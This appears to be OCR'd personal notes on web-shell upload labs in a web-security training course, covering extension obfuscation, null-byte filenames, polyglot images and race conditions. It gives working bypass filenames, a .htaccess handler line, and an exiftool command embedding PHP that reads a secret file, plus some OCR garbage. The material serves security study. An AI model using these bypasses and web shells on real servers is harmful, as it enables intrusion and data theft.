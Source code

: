	File Content Would be:
•	SetHandler application/x-httpd-php
	Send Request, If it already contains this file, then it will overwrite.
o	Let’s try to upload shell.abc
	filename=“shell.abc”
	Content-Type: application/php
•	<?php phpinfo() ?>   
o	We also can try, if php is blacklisted then, change Char
	.PHP or .Php or .pHP or .pHp or .phP

•	Lab 5: Web shell upload via obfuscated file extension
o	Here, Whitelisted only .jpg and .png files and everything is blocked, so we can’t upload .htaccess file.
o	Try shell.php.jpg, it uploaded but didn’t work.
o	So we can use null byte injection
	%00, or 0x00 in hex
	filename=“shell.php%00.jpg”
	here %00 is removing the .jpg
o	Remove %00.jpg part from URL
	files/avatars/shell.php%00.jpg
	files/avatars/shell.php
o	Can also Try:
	shell.php%20.jpg  space
	shell.php%09.jpg  Tab
	shell.php%0a.jpg  put .jpg in new line
	shell.php .jpg  manual space will also work.

•	Lab 6: Remote code execution via polyglot web shell upload
o	Here, it not checking the content type as well as extension.
o	So it must be checking the content in the image file. or body of the image file.
o	Search Hex Editor ExifTool or HxD
	Open file any image file. and paste code in between middle part of Decoded Text.
	<?php phpinfo() ?>
	DYÜÛˆý`ù©*ÊÒ‡‚Jínˆ/èa&&“’‘ÈòØãýqúj¯<?php phpinfo() ?>@È0îFÚÜFÙ]ã°Í{-WNU†ŸgrÌM‰%T‘ â é ¬ùçU˜dVß~e7~˜
	Save or Export file, and change extension to .php
	Upload and Open Image in New Tab
o	In kali
	exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

•	Lab 7: Web shell upload via race condition
o	Here, nothing is working. It could be race condition.
o	Suppose for Image.jpg
•	Image.jpg  Uploaded  Verification  Stay
o	If we upload .jpg file
o	It will get uploaded.
o	After this it will check if this file is valid image file or not.
o	If yes, then it will stay in server.
o	For shell.php
•	Shell.php  Uploaded  Verification  Deleted
o	If we upload .php file
o	It will get uploaded without error.
o	After this it will check if this file is valid image file or not.
o	If No, then it will delete from the server.
o	Exploit
	Shell.php  Uploaded  EXPLOIT  Verification  Del
o	Here, it’s a vuln that we can upload .php file, but before Verification in the less time we have to jump into the time, have to pick that time fare and Exploit.
•	Race Condition:
o	We have to upload the file again and again, again and again, again and again, and simultaneously refreshing page again and again, again and again, so server take time to processes the verification, at that time, our .php file will get executed before deleting from the server.
	filename="shell.php .jpg"
•	Send it to Intruder > Clear